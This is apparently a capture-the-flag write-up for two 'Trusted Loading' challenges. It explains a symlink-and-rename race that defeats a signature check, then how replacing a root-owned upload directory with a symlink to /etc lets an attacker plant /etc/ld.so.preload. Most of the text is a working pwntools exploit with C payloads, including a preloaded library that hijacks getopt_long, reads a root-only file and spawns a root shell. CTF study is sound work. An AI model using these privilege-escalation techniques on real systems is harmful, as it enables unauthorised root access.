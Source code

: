 ### Trusted Loading 1
We can execute any binary under the chroot("/home/chall/chroot"). We also can call trusted_loader to execute binary not under the chroot if that binary pass the signature check. The bug is at when trusted_loader check the file using stat with S_ISREG. If we provide a symlink, S_ISREG will also return True. We first let the symlink link to the "tester" to pass the signature check. Before trusted_loader execute the binary, we rename the binary which we want to execute to "tester". In the end, we can execute any binary not under the chroot to read "/flag1". 

### Trusted Loading 2
In this challenge, we have to read the "/flag2" which is only read by root. We found that we can upload file to the "/home/chall/chroot". This process is done by root privilege. "/home/chall" is owned by 1337, so we can delete "/home/chall/chroot" and make it as a symlink to any path. It means that we can create any file in any path. We create /etc/ld.so.preload and exit. When executing poweroff, it will preload our library. We hijack getopt_long to read the flag2.
```python
from pwn import *


def Upload(filename,name):
    data = open(filename).read()
    r.sendlineafter("3.","2")
    r.sendlineafter("?",name)
    r.sendlineafter("?",str(len(data)))
    r.sendafter("?",data)
def Do_elf(filename):
    data = open(filename).read()
    r.sendlineafter("3.","1")
    r.sendlineafter("?",str(len(data)))
    r.sendafter("?",data)
'''
init.c
#include <stdio.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <unistd.h>
int main(){
        symlink("/home/chall/chroot/tester","PWN");
        symlink("/home/chall/chroot/tester.sig","PWN.sig");
        while(1) {
                sleep(1);
        }

}

exp.c
int main(){
        system("rm -rf ../chroot");
        system("ln -s /etc ../chroot");
        puts("Done");
        puts("3.");
        sleep(1);

}

sandbox.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
        write(666,"\x01PWN",4);
        sleep(1);
        rename("exp","tester");
}

libx.c
int getopt_long(){
        printf("My id : %d\n",getuid());
        int fd = open("/flag2",0);
        char buf[0x100];
        write(1,buf,read(fd,buf,0x100));
        unlink("/etc/libx.so");
        system("sh");
        return 0;
}

ld.so.preload
libx.so
'''


r = remote("trustedloading.hackable.software", 1337)
r.recvuntil(": ")
s = process(r.recvline()[:-1].split())
s.recvuntil(": ")
r.send(s.recvall())
s.close()

#r = process('./start.sh')

data = open("init").read()
r.sendlineafter("?",str(len(data)))
r.sendafter("?",data)
Upload("tester","tester")
Upload("tester.sig","tester.sig")
Upload("exp","exp")
context.arch = "amd64"
Do_elf("sandbox")
r.recvuntil("Done");
Upload("ld.so.preload","ld.so.preload")
Upload("libx.so","libx.so")
r.sendlineafter("3.","3")
r.interactive()
```
